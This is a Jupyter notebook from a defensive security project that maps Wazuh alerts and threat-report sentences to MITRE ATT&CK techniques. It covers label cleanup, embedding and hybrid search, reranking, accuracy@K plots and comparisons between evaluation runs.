The network interface ens3 on host inetfw has entered promiscuous mode, which allows the device to capture all network traffic passing through the interface. This behavior is often associated with network reconnaissance or traffic interception.
['T1016.001', 'T1011', 'T1090.001', 'T1040', 'T1041', 'T1018', 'T1029', 'T1071.001', 'T1020', 'T1016']
network sniffing, promiscuous mode, packet capture
['T1040', 'T1071.002', 'T1016.001', 'T1095', 'T1071.001', 'T1205.002', 'T1071', 'T1056', 'T1048', 'T1020']
Interface entered in promiscuous(sniffing) mode.
['T1056', 'T1041', 'T1040', 'T1205.002', 'T1011', 'T1016.001', 'T1205', 'T1001', 'T1546.005', 'T1095']


# Limpieza de TRAM (etiquetas deprecadas)

In [ ]:
from mitreattack.stix20 import MitreAttackData

mitre_data = MitreAttackData('data/enterprise-attack.json')
techniques = mitre_data.get_techniques(remove_revoked_deprecated=False) 

False


In [74]:
deprecated = []
for t in techniques:
    if t.get("revoked") or t.get("x_mitre_deprecated"):
        print(t.get("revoked"))
        print(t.get("x_mitre_deprecated"))
        print(mitre_data.get_attack_id(t.id))
        deprecated.append(mitre_data.get_attack_id(t.id))

True
False
T1066
True
False
T1156
True
False
T1067
True
False
T1143
True
False
T1161
True
False
T1150
True
False
T1148
True
False
T1492
True
False
T1044
True
False
T1171
True
False
T1501
True
False
T1514
True
False
T1109
True
False
T1099
True
False
T1163
True
False
T1116
True
False
T1522
True
False
T1093
True
False
T1172
True
False
T1178
True
False
T1013
True
False
T1192
True
False
T1121
True
False
T1206
True
False
T1063
True
False
T1167
True
False
T1527
True
False
T1562.009
True
False
T1180
True
False
T1165
True
False
T1070.002
True
False
T1089
True
False
T1487
True
False
T1214
True
False
T1103
True
False
T1017
True
False
T1162
True
False
T1058
True
False
T1024
True
False
T1536
True
False
T1562
True
False
T1079
True
False
T1139
True
False
T1503
False
True
T1153
True
False
T1038
True
False
T1050
True
False
T1032
False
True
T1062
True
False
T1182
True
False
T1562.002
True
False
T1004
True
False
T1009
True
False
T1076
True
False
T1131
True
False
T1181
True
False
T1562.004
True
False
T115

In [78]:
with open('data/single_label.json', 'r', encoding='utf-8') as file:
    data = json.load(file)

data

[{'text': 'This file extracts credentials from LSASS similar to Mimikatz.',
  'label': 'T1003.001',
  'doc_title': 'NotPetya Technical Analysis  A Triple Threat File Encryption MFT Encryption Credential Theft'},
 {'text': 'It calls OpenProcess on lsass.exe with access flag set to VM_READ, and looks for the modules wdigest.dll and lsasrv.dll loaded in the lsass.exe process.',
  'label': 'T1003.001',
  'doc_title': 'NotPetya Technical Analysis  A Triple Threat File Encryption MFT Encryption Credential Theft'},
 {'text': 'It spreads to Microsoft Windows machines using several propagation methods, including the EternalBlue exploit for the CVE-2017-0144 vulnerability in the SMB service.',
  'label': 'T1210',
  'doc_title': 'NotPetya Technical Analysis  A Triple Threat File Encryption MFT Encryption Credential Theft'},
 {'text': 'SMB exploitation via EternalBlue',
  'label': 'T1210',
  'doc_title': 'NotPetya Technical Analysis  A Triple Threat File Encryption MFT Encryption Credential Theft'

In [93]:
dep_count = 0
dep_ex = []


for e in data:
    _, label, _ = e.values()
    if label in deprecated:
        dep_count += 1
        dep_ex.append(label)

print(dep_count)
set(dep_ex)

176


{'T1562.001', 'T1574.002'}

In [92]:
mapping_dict = {
    'T1562.001': 'T1685',
    'T1574.002': 'T1574.001'
}

new_data = []

for e in data:
    t, label, _ = e.values()
    new_data.append({'text': t,
                        'label': mapping_dict.get(label, label)})
        
with open('data/tram_data.json', 'w', encoding='utf-8') as file:
    json.dump(new_data, file, indent=4, ensure_ascii=False)

In [164]:
with open('data/tram_data.json', 'r', encoding='utf-8') as file:
    data = json.load(file)

data

[{'text': 'This file extracts credentials from LSASS similar to Mimikatz.',
  'label': 'T1003.001'},
 {'text': 'It calls OpenProcess on lsass.exe with access flag set to VM_READ, and looks for the modules wdigest.dll and lsasrv.dll loaded in the lsass.exe process.',
  'label': 'T1003.001'},
 {'text': 'It spreads to Microsoft Windows machines using several propagation methods, including the EternalBlue exploit for the CVE-2017-0144 vulnerability in the SMB service.',
  'label': 'T1210'},
 {'text': 'SMB exploitation via EternalBlue', 'label': 'T1210'},
 {'text': 'SMBv1 Exploitation via EternalBlue', 'label': 'T1210'},
 {'text': 'has the capability to exploit SMBv1 via the well known EternalBlue exploit.',
  'label': 'T1210'},
 {'text': 'SMB copy and remote execution', 'label': 'T1570'},
 {'text': 'This thread is then used to execute the SMB copy and remote execution',
  'label': 'T1570'},
 {'text': 'SMB copy and remote execution', 'label': 'T1570'},
 {'text': 'SMB Copy and Remote Executi

In [5]:
from sentence_transformers import CrossEncoder

reranker = CrossEncoder('cross-encoder/ms-marco-MiniLM-L-6-v2', max_length=512)

Loading weights: 100%|██████████| 105/105 [00:00<00:00, 9838.31it/s]
BertForSequenceClassification LOAD REPORT from: cross-encoder/ms-marco-MiniLM-L-6-v2
Key                          | Status     |  | 
-----------------------------+------------+--+-
bert.embeddings.position_ids | UNEXPECTED |  | 

Notes:
- UNEXPECTED:	can be ignored when loading from different task/architecture; not ok if you expect identical arch.


In [16]:

text,label,_ = data[0].values()
# print(text, label)

query = embedder.embed_query(text)

results = mitre_store.search(query, top_k=50)

pares = []
for r in results:
    pares.append((text, r['description']))

scores = reranker.predict(pares)

for i,doc in enumerate(results):
    doc['rerank_score'] = float(scores[i])

reordenados = sorted(results, key=lambda x: x['rerank_score'], reverse=True)

top_10_final = reordenados[:10]

results_10_inicial = [results[i]['technique_id'] for i in range(10)]
results_10_final = [top_10_final[i]['technique_id'] for i in range(10)]

print(label)
print(results_10_inicial)
print(results_10_final)


T1003.001
['T1003.001', 'T1003.004', 'T1003.002', 'T1003', 'T1552', 'T1003.005', 'T1552.002', 'T1552.001', 'T1552.006', 'T1555.003']
['T1003.001', 'T1003.004', 'T1003', 'T1558.005', 'T1003.006', 'T1003.005', 'T1003.002', 'T1555.003', 'T1552', 'T1555.004']


In [177]:
from tqdm import tqdm

k_valores = [1,3,5,10,50,100]

aciertos = {k:0 for k in k_valores}
aciertos2 = {k:0 for k in k_valores}

fallos = []
fallos2 = []
for e in tqdm(data, desc='Evaluando embeddings'):
    text,label = e.values()
    # print(text, label)

    query = emb.embed_query(text)

    # results = mitre_store.search(query, top_k=100)
    results_hybrid = query_hybrid_simple(mitre_store, query, text, top_k=100)

    # results = mitre_store_v2.search_mitre_hybrid(query, text, top_k=100)

    # pares = []
    # for r in results:
    #     pares.append((text, r['description']))

    # scores = reranker.predict(pares)

    # for i,doc in enumerate(results):
    #     doc['rerank_score'] = float(scores[i])

    # reordenados = sorted(results, key=lambda x: x['rerank_score'], reverse=True)

    # top_10_final = reordenados[:10]

    # results_100 = [results[i]['technique_id'] for i in range(100)]
    results_100_hybrid = [results_hybrid[i]['technique_id'] for i in range(100)]
    # results_10_final = [reordenados[i]['technique_id'] for i in range(100)]

    
    # if label in results_100:
    #     top = results_100.index(label)
    #     for k in k_valores:
    #         if top < k:
    #             aciertos[k] += 1

    # if label not in results_100[:10]:
    #     if label in results_100:
    #         top = results_100.index(label)
    #     else:
    #         top = '+100'

    #     fallos.append((text, label, top))

    if label in results_100_hybrid:
        top = results_100_hybrid.index(label)
        for k in k_valores:
            if top < k:
                aciertos2[k] += 1

    if label not in results_100_hybrid[:10]:
        if label in results_100_hybrid:
            top = results_100_hybrid.index(label)
        else:
            top = '+100'

        fallos2.append((text, label, top))
    
    
    
    
    
    # if label in results_10_final:
    #     top = results_10_final.index(label)
    #     for k in k_valores:
    #         if top < k:
    #             aciertos2[k] += 1

    
accuracy = {f'Top-{k}': (hits / len(data)) for k, hits in aciertos.items()}
accuracy2 = {f'Top-{k}': (hits / len(data)) for k, hits in aciertos2.items()}

Evaluando embeddings:   0%|          | 0/5089 [00:00<?, ?it/s]C:\Users\omarinf\AppData\Local\Temp\ipykernel_27688\13877414.py:91: DeprecationWarning: The 'body' parameter is deprecated for the 'search' API and will be removed in a future version. Instead use API parameters directly. See https://github.com/elastic/elasticsearch-py/issues/1698 for more information
  response = vector_store.client.search(index=mitre_store.index_name, body=q)
Evaluando embeddings: 100%|██████████| 5089/5089 [10:51<00:00,  7.82it/s]




In [9]:
import matplotlib.pyplot as plt
import numpy as np

# 1. Definición de los datos
data = {
    'mitre_index (inicial)': {
        'Top-1': 0.2393, 'Top-3': 0.4047, 'Top-5': 0.4940,
        'Top-10': 0.6170, 'Top-50': 0.8581, 'Top-100': 0.9292
    },
    'v2 (all-MiniLM-L6-v2)': {
        'Top-1': 0.2532, 'Top-3': 0.4303, 'Top-5': 0.5103,
        'Top-10': 0.6254, 'Top-50': 0.8661, 'Top-100': 0.9345
    },
    'v2 (BGE Small)': {
        'Top-1': 0.2613, 'Top-3': 0.4260, 'Top-5': 0.5128,
        'Top-10': 0.6398, 'Top-50': 0.8595, 'Top-100': 0.9184
    },
    'v3 (BGE Small)': {
        'Top-1': 0.2749, 'Top-3': 0.4639, 'Top-5': 0.5588,
        'Top-10': 0.6763, 'Top-50': 0.8693, 'Top-100': 0.9212
    },
    'v3 (BGE Small) + Búsqueda Híbrida': {
        'Top-1': 0.4152, 'Top-3': 0.6292, 'Top-5': 0.7191,
        'Top-10': 0.8107, 'Top-50': 0.9467, 'Top-100': 0.9707
    }
}

# 2. Configuración inicial del gráfico
plt.figure(figsize=(12, 8)) # Aumentamos ligeramente la altura

# Categorías en el eje X (tratadas como texto/equidistantes)
categories = ['Top-1', 'Top-3', 'Top-5', 'Top-10', 'Top-50', 'Top-100']

# Marcadores para hacer las líneas fácilmente distinguibles (útil para daltónicos o impresión B/N)
markers = ['o', 's', '^', 'D', '*']

# 3. Dibujar las líneas
for (label, values), marker in zip(data.items(), markers):
    # Extraemos los valores, manteniendo el orden de 'categories' y multiplicamos x 100
    y_values = [values[cat] * 100 for cat in categories]
    
    # Dibujamos la línea
    plt.plot(categories, y_values, marker=marker, markersize=8, linewidth=2.5, 
             label=label, alpha=0.85)

# 4. Formateo y estilos del gráfico
plt.title('Comparativa de Accuracy @ K según Estrategia de Indexación', 
          fontsize=16, fontweight='bold', pad=15)
plt.xlabel('K (Documentos Recuperados)', fontsize=12, fontweight='bold')
plt.ylabel('Accuracy (%)', fontsize=12, fontweight='bold')

# Bloquear el eje Y entre 0 y 100 con divisiones de 10 en 10
plt.ylim(20, 100) 
plt.yticks(np.arange(20, 101, 10))

# Añadir una cuadrícula punteada para facilitar la lectura de los valores
plt.grid(True, linestyle='--', alpha=0.6, which='major')

# Leyenda abajo a la derecha, donde no suele molestar a la curva de Accuracy@K
plt.legend(title='Estrategias', title_fontsize='12', fontsize='11', 
           loc='lower right', framealpha=0.9)

# 5. Renderizar o guardar
plt.tight_layout()
plt.show() 
# Si quieres guardar la imagen descomenta la siguiente línea:
# plt.savefig('accuracy_chart.png', dpi=300)

In [178]:
accuracy2

{'Top-1': 0.41520927490666143,
 'Top-3': 0.6292002358027118,
 'Top-5': 0.719198270780114,
 'Top-10': 0.8107683238357241,
 'Top-50': 0.9467478876007074,
 'Top-100': 0.9707211632933779}

In [179]:
fallos2

[('Once the command line arguments are generated', 'T1059.003', 35),
 ('Process Hashes and Process Privilege Checks', 'T1057', 12),
 ('invokes the following API’s:', 'T1106', 83),
 ('GetExtendedTcpTable to retrieve a list of TCP endpoints\nGetIpNetTable to retrieve',
  'T1106',
  41),
 ('NetServerEnum to get a list', 'T1106', '+100'),
 ('NetServerGetInfoto retrieve the current configuration', 'T1106', '+100'),
 ('it also invokes the API NTRaiseHardError.', 'T1106', 10),
 ('is used to connect to a server using the default credentials', 'T1078', 16),
 ('which were previously encrypted', 'T1027', 14),
 ('the original encoded MBR', 'T1027', 15),
 ('Explanation of schtask parameters', 'T1053.005', 50),
 ('For instance, immediately after execution, it loads itself in memory, and deletes itself from the disk.',
  'T1027',
  63),
 ('packed by noted tools', 'T1027', '+100'),
 ('Themida-packed', 'T1027', 50),
 ('used to dump information from the victim’s Oracle database.', 'T1005', 10),
 ('Neces

In [180]:
text = 'to track which of the 3 processes are running on the system'
query = emb.embed_query(text)

results_vector = mitre_store.search(query, top_k=100)
results_text = query_full_text(mitre_store, text, top_k=100)
results_hybrid = query_hybrid_simple(mitre_store, query, text, top_k=100)

print([results_vector[i]['technique_id'] for i in range(10)])
print([results_text[i]['technique_id'] for i in range(10)])
print([results_hybrid[i]['technique_id'] for i in range(10)])

['T1057', 'T1564.010', 'T1053.006', 'T1036.009', 'T1543', 'T1564.011', 'T1055.008', 'T1546', 'T1569.002', 'T1134.004']
['T1690', 'T1647', 'T1480', 'T1134.002', 'T1218.013', 'T1197', 'T1553.001', 'T1222', 'T1204', 'T1222.001']
['T1480', 'T1690', 'T1134.002', 'T1197', 'T1647', 'T1055', 'T1055.008', 'T1057', 'T1218.013', 'T1685.006']


C:\Users\omarinf\AppData\Local\Temp\ipykernel_27688\13877414.py:51: DeprecationWarning: The 'body' parameter is deprecated for the 'search' API and will be removed in a future version. Instead use API parameters directly. See https://github.com/elastic/elasticsearch-py/issues/1698 for more information
  response = vector_store.client.search(index=mitre_store.index_name, body=q_full_text)
C:\Users\omarinf\AppData\Local\Temp\ipykernel_27688\13877414.py:91: DeprecationWarning: The 'body' parameter is deprecated for the 'search' API and will be removed in a future version. Instead use API parameters directly. See https://github.com/elastic/elasticsearch-py/issues/1698 for more information
  response = vector_store.client.search(index=mitre_store.index_name, body=q)


In [23]:
fallos

[('It spreads to Microsoft Windows machines using several propagation methods, including the EternalBlue exploit for the CVE-2017-0144 vulnerability in the SMB service.',
  'T1210',
  19),
 ('This thread is then used to execute the SMB copy and remote execution',
  'T1570',
  21),
 ('The malware decompresses its resource named', 'T1140', 12),
 ('decrypt the MFT,', 'T1140', 10),
 ('Once the sector is decrypted,', 'T1140', 40),
 ('and the same key is used to decrypt the MFT.', 'T1140', 42),
 ('is also decoded, and placed back', 'T1140', 26),
 ('its resource section are decompressed and written to disk', 'T1140', 62),
 ('that hashes each running process on the system', 'T1057', 13),
 ('Process Hashes and Process Privilege Checks', 'T1057', 14),
 ('GetExtendedTcpTable to retrieve a list of TCP endpoints\nGetIpNetTable to retrieve',
  'T1106',
  '+100'),
 ('NetServerEnum to get a list', 'T1106', '+100'),
 ('NetServerGetInfoto retrieve the current configuration', 'T1106', '+100'),
 ('CreateF

In [28]:
import numpy as np

def calcular_coseno(v1,v2):
    dot_product = np.dot(v1,v2)
    norm1 = np.linalg.norm(v1)
    norm2 = np.linalg.norm(v2)

    return dot_product / (norm1 * norm2)

t1 = 'Alert: Execution detected of a Powershell command coding in Base64'
t2 = 'Security: A Powershell script attempted to establish an external connection not authorized'
t3 = 'Add three cups of milk in a bowl and bake with hot butter'

e1 = embedder.embed_query(t1)
e2 = embedder.embed_query(t2)
e3 = embedder.embed_query(t3)

s1 = calcular_coseno(e1,e2)
s2 = calcular_coseno(e1, e3)

print(s1)
print(s2)

0.48960734562458924
-0.01450588246579226


# Comparar cambios entre evaluaciones

In [1]:
import pandas as pd

df = pd.read_csv('reports/alerts_results.csv')

In [2]:
def evaluar_prediccion(row):
    predicted = eval(row['predicted_ttps'])
    real = eval(row['real_ttps'])

    # Lógica de acierto que definiste
    if any(ttp in real for ttp in predicted):
        return 'acierto'
    
    real_parents = [r.split('.')[0] for r in real]
    predicted_parents = [p.split('.')[0] for p in predicted]
    
    if any(ttp in real_parents for ttp in predicted_parents):
        return 'acierto_parcial'
    
    return 'fallo'

# Aplicamos la evaluación
df['estado'] = df.apply(evaluar_prediccion, axis=1)

In [3]:
# Supongamos que tienes df_v1 (antes) y df_v2 (después)
df_v1 = df[df['evaluation_id'] == 'EVAL-0902E3']
df_v2 = df[df['evaluation_id'] == 'EVAL-602432']
cols = ['alert_description','real_ttps', 'evaluation_id', 'predicted_ttps','estado']

# Nos aseguramos de tener solo las columnas necesarias
df_comparativa = df_v1[cols].merge(
    df_v2[cols], 
    on=['alert_description', 'real_ttps'], 
    suffixes=('_old', '_new')
)

# Identificamos los cambios
def detectar_cambio(row):
    if row['estado_old'] == row['estado_new']:
        return 'sin_cambios'
    return f"de_{row['estado_old']}_a_{row['estado_new']}"

df_comparativa['cambio'] = df_comparativa.apply(detectar_cambio, axis=1)

# Resultado: ver cuántas alertas ganaste o perdiste
print(df_comparativa['cambio'].value_counts())

cambio
sin_cambios                     18
de_acierto_a_fallo               1
de_acierto_a_acierto_parcial     1
Name: count, dtype: int64


In [58]:
# Tabla cruzada para ver el flujo de estados
transicion = pd.crosstab(df_comparativa['estado_old'], df_comparativa['estado_new'])
print(transicion)

estado_new       acierto  acierto_parcial  fallo
estado_old                                      
acierto               11                0      2
acierto_parcial        1                1      1
fallo                  0                1      3


In [4]:
def analizar_diferencia(row):
    preds_old = set(eval(row['predicted_ttps_old']))
    preds_new = set(eval(row['predicted_ttps_new']))
    
    agregados = list(preds_new - preds_old)
    quitados = list(preds_old - preds_new)
    
    return f"Añadió: {agregados} | Quitó: {quitados}"

df_cambios = df_comparativa[df_comparativa['estado_old'] != df_comparativa['estado_new']].copy()
df_cambios['detalle_cambio'] = df_cambios.apply(analizar_diferencia, axis=1)

In [5]:
df_cambios

,alert_description,real_ttps,evaluation_id_old,predicted_ttps_old,estado_old,evaluation_id_new,predicted_ttps_new,estado_new,cambio,detalle_cambio
3,Wazuh agent stopped.,['T1685'],EVAL-0902E3,"['T1685', 'T1489']",acierto,EVAL-602432,['T1489'],fallo,de_acierto_a_fallo,Añadió: [] | Quitó: ['T1685']
13,Multiple XSS (Cross Site Scripting) attempts f...,['T1059'],EVAL-0902E3,"['T1189', 'T1046', 'T1190', 'T1059', 'T1595.00...",acierto,EVAL-602432,"['T1189', 'T1190', 'T1595.003', 'T1059.007']",acierto_parcial,de_acierto_a_acierto_parcial,"Añadió: [] | Quitó: ['T1046', 'T1059']"


In [62]:
print(df_cambios.to_markdown(index=False))

| alert_description                                                 | real_ttps          | evaluation_id_old   | predicted_ttps_old                                | estado_old      | evaluation_id_new   | predicted_ttps_new                           | estado_new      | cambio                       | detalle_cambio                                                     |
|:------------------------------------------------------------------|:-------------------|:--------------------|:--------------------------------------------------|:----------------|:--------------------|:---------------------------------------------|:----------------|:-----------------------------|:-------------------------------------------------------------------|
| PAM: Login session opened.                                        | ['T1078']          | EVAL-95C3DB         | ['T1078.001', 'T1021']                            | acierto_parcial | EVAL-82FCDF         | ['T1021', 'T1021.004']                       | fallo   

In [141]:
# Ejemplo: Ver solo los que mejoraron
mejoras = df_cambios[
    (df_cambios['estado_old'] == 'fallo') & 
    (df_cambios['estado_new'] == 'acierto')
]

mejoras[['evaluation_id_new', 'detalle_cambio', 'predicted_ttps_old', 'predicted_ttps_new']]

,evaluation_id_new,detalle_cambio,predicted_ttps_old,predicted_ttps_new
10,EVAL-0CD507,"Añadió: ['T1595', 'T1083'] | Quitó: []",['T1595.003'],"['T1595.003', 'T1083', 'T1595']"


# Pruebas recuperacion alertas contexto

In [10]:
from src.agent.data_access import CSVAlertData

alert_data = CSVAlertData(csv_path='data/alerts_dataset_parsed.csv')

print(original_alert)
alert_data.get_context_window(original_alert, window_size=10)

{'timestamp': '2025-12-15T11:10:46.939+0000', 'rule': {'level': 8, 'description': 'Interface entered in promiscuous(sniffing) mode.', 'id': '5104', 'firedtimes': 1, 'mail': False, 'groups': ['syslog', 'linuxkernel', 'promisc'], 'pci_dss': ['10.6.1', '11.4'], 'gpg13': ['4.13'], 'gdpr': ['IV_35.7.d'], 'hipaa': ['164.312.b'], 'nist_800_53': ['AU.6', 'SI.4'], 'tsc': ['CC7.2', 'CC7.3', 'CC6.1', 'CC6.8']}, 'agent': {'id': '001', 'name': 'inetfw', 'ip': '192.168.100.254'}, 'manager': {'name': 'wazuh'}, 'id': '1765797046.991278', 'full_log': 'Dec 15 11:10:45 inetfw kernel: [ 1638.994908] device ens3 entered promiscuous mode', 'predecoder': {'program_name': 'kernel', 'timestamp': 'Dec 15 11:10:45', 'hostname': 'inetfw'}, 'decoder': {'name': 'kernel'}, 'location': '/var/log/kern.log'}
Cargando datos desde data/alerts_dataset_parsed.csv...


[{'timestamp': Timestamp('2025-12-15 11:10:29.498000+0000', tz='UTC'),
  'level': 3,
  'description': 'PAM: Login session closed.',
  'fired_times': 9,
  'full_log': 'Dec 15 11:10:27 inetfw sudo[4215]: pam_unix(sudo:session): session closed for user root'},
 {'timestamp': Timestamp('2025-12-15 11:10:46.931000+0000', tz='UTC'),
  'level': 10,
  'description': 'Auditd: Device enables promiscuous mode.',
  'fired_times': 1,
  'full_log': 'type=ANOM_PROMISCUOUS msg=audit(1765797045.372:6848): dev=ens3 prom=256 old_prom=0 auid=4294967295 uid=0 gid=0 ses=4294967295\x1dAUID="unset" UID="root" GID="root" type=SYSCALL msg=audit(1765797045.372:6848): arch=c000003e syscall=54 success=yes exit=0 a0=3 a1=107 a2=1 a3=7ffe402039b0 items=0 ppid=1 pid=4249 auid=4294967295 uid=0 gid=0 euid=0 suid=0 fsuid=0 egid=0 sgid=0 fsgid=0 tty=(none) ses=4294967295 comm="auditf" exe="/usr/bin/auditf" subj=unconfined key=(null)\x1dARCH=x86_64 SYSCALL=setsockopt AUID="unset" UID="root" GID="root" EUID="root" SUID="ro

In [98]:
data_repo = pd.read_csv('data/alerts_dataset_parsed.csv', parse_dates=['timestamp'])

In [99]:
data_repo

,alert,real_ttps,possible_ttps,scenario,step,alert_path,timestamp,level,description,rule_id,fired_times,groups,agent,manager,alert_id,full_log,data
0,"{""timestamp"": ""2025-09-22T18:37:00.601+0000"", ...",['T1057'],"['T1087', 'T1083', 'T1201', 'T1069', 'T1057', ...",1_autostart_localaccount,13,data/manifestations_raw\steps\1_autostart_loca...,2025-09-22 18:37:00.601000+00:00,6,Processes running for all users were queried w...,92604,1,['audit_detections'],"{'id': '002', 'name': 'videoserver', 'ip': '17...",{'name': 'wazuh'},1.758566e+09,type=SYSCALL msg=audit(1758566218.934:4968): a...,"{'audit': {'type': 'SYSCALL', 'id': '4968', 'a..."
1,"{""timestamp"": ""2025-09-22T18:37:06.758+0000"", ...",[],"['T1087', 'T1083', 'T1201', 'T1069', 'T1057', ...",1_autostart_localaccount,13,data/manifestations_raw\steps\1_autostart_loca...,2025-09-22 18:37:06.758000+00:00,7,Agent event queue is 90% full.,202,4,"['wazuh', 'agent_flooding']","{'id': '002', 'name': 'videoserver', 'ip': '17...",{'name': 'wazuh'},1.758566e+09,wazuh: Agent buffer: '90%'.,{'level': '90%'}
2,"{""timestamp"": ""2025-09-22T18:37:06.774+0000"", ...",[],"['T1087', 'T1083', 'T1201', 'T1069', 'T1057', ...",1_autostart_localaccount,13,data/manifestations_raw\steps\1_autostart_loca...,2025-09-22 18:37:06.774000+00:00,9,Agent event queue is full. Events may be lost.,203,7,"['wazuh', 'agent_flooding']","{'id': '002', 'name': 'videoserver', 'ip': '17...",{'name': 'wazuh'},1.758566e+09,wazuh: Agent buffer: 'full'.,{'level': 'full'}
3,"{""timestamp"": ""2025-09-22T18:37:10.786+0000"", ...",[],"['T1087', 'T1083', 'T1201', 'T1069', 'T1057', ...",1_autostart_localaccount,13,data/manifestations_raw\steps\1_autostart_loca...,2025-09-22 18:37:10.786000+00:00,9,Agent event queue is full. Events may be lost.,203,8,"['wazuh', 'agent_flooding']","{'id': '002', 'name': 'videoserver', 'ip': '17...",{'name': 'wazuh'},1.758566e+09,wazuh: Agent buffer: 'full'.,{'level': 'full'}
4,"{""timestamp"": ""2025-09-22T18:37:12.713+0000"", ...",[],"['T1087', 'T1083', 'T1201', 'T1069', 'T1057', ...",1_autostart_localaccount,13,data/manifestations_raw\steps\1_autostart_loca...,2025-09-22 18:37:12.713000+00:00,9,Agent event queue is full. Events may be lost.,203,9,"['wazuh', 'agent_flooding']","{'id': '002', 'name': 'videoserver', 'ip': '17...",{'name': 'wazuh'},1.758566e+09,wazuh: Agent buffer: 'full'.,{'level': 'full'}
...,...,...,...,...,...,...,...,...,...,...,...,...,...,...,...,...,...
245786,"{""timestamp"": ""2025-12-10T17:11:24.157+0000"", ...",[],"['T1219', 'T1219']",6_screensharing_cron,46,data/manifestations_raw\steps\6_screensharing_...,2025-12-10 17:11:24.157000+00:00,6,IDS event.,20101,46,['ids'],"{'id': '002', 'name': 'inetfw', 'ip': '192.168...",{'name': 'wazuh'},1.765387e+09,12/10/2025-17:11:22.506215 [**] [1:2044076:1]...,"{'srcip': '192.168.50.100', 'dstip': '192.168...."
245787,"{""timestamp"": ""2025-12-10T17:11:24.159+0000"", ...",[],"['T1219', 'T1219']",6_screensharing_cron,46,data/manifestations_raw\steps\6_screensharing_...,2025-12-10 17:11:24.159000+00:00,6,IDS event.,20101,47,['ids'],"{'id': '002', 'name': 'inetfw', 'ip': '192.168...",{'name': 'wazuh'},1.765387e+09,12/10/2025-17:11:23.502233 [**] [1:2043343:1]...,"{'srcip': '192.168.50.100', 'dstip': '192.168...."
245788,"{""timestamp"": ""2025-12-10T17:11:24.161+0000"", ...",[],"['T1219', 'T1219']",6_screensharing_cron,46,data/manifestations_raw\steps\6_screensharing_...,2025-12-10 17:11:24.161000+00:00,6,IDS event.,20101,48,['ids'],"{'id': '002', 'name': 'inetfw', 'ip': '192.168...",{'name': 'wazuh'},1.765387e+09,12/10/2025-17:11:23.502233 [**] [1:2044076:1]...,"{'srcip': '192.168.50.100', 'dstip': '192.168...."
245789,"{""timestamp"": ""2025-12-10T17:24:48.705+0000"", ...",[],"['T1105', 'T1219', 'T1564.001']",6_screensharing_cron,49,data/manifestations_raw\steps\6_screensharing_...,2025-12-10 17:24:48.705000+00:00,3,Suricata: Alert - ET INFO Python BaseHTTP Serv...,86601,57,"['ids', 'suricata']","{'id': '002', 'name': 'inetfw'

In [76]:
alert_time = pd.to_datetime(original_alert['timestamp'])
alert_time

Timestamp('2025-12-15 11:10:46.939000+0000', tz='UTC')

In [102]:
data_repo.sort_values(by='timestamp', inplace=True)

previous_alerts = data_repo[data_repo['timestamp'] < alert_time].tail(4//2)[['timestamp', 'level', 'description', 'fired_times', 'full_log']]
subsequent_alerts = data_repo[data_repo['timestamp'] > alert_time].head(4//2)[['timestamp', 'level', 'description', 'fired_times', 'full_log']]


In [91]:
data_repo.iloc[245448-4:245448+4]

,alert,real_ttps,possible_ttps,scenario,step,alert_path,timestamp,level,description,rule_id,fired_times,groups,agent,manager,alert_id,full_log,data
245444,"{""timestamp"": ""2025-12-15T11:10:46.931+0000"", ...",[],['T1543.002'],4,15,data/manifestations_raw\steps\4-15\wazuh/logs/...,2025-12-15 11:10:46.931000+00:00,10,Auditd: Device enables promiscuous mode.,80710,1,"['audit', 'audit_anom']","{'id': '001', 'name': 'inetfw', 'ip': '192.168...",{'name': 'wazuh'},1.765797e+09,type=ANOM_PROMISCUOUS msg=audit(1765797045.372...,"{'audit': {'type': 'ANOM_PROMISCUOUS', 'id': '..."
245445,"{""timestamp"": ""2025-12-15T11:10:46.933+0000"", ...",['T1548.003'],['T1543.002'],4,15,data/manifestations_raw\steps\4-15\wazuh/logs/...,2025-12-15 11:10:46.933000+00:00,3,Successful sudo to ROOT executed.,5402,7,"['syslog', 'sudo']","{'id': '001', 'name': 'inetfw', 'ip': '192.168...",{'name': 'wazuh'},1.765797e+09,Dec 15 11:10:45 inetfw sudo: root : TTY=pt...,"{'srcuser': 'root', 'dstuser': 'root', 'tty': ..."
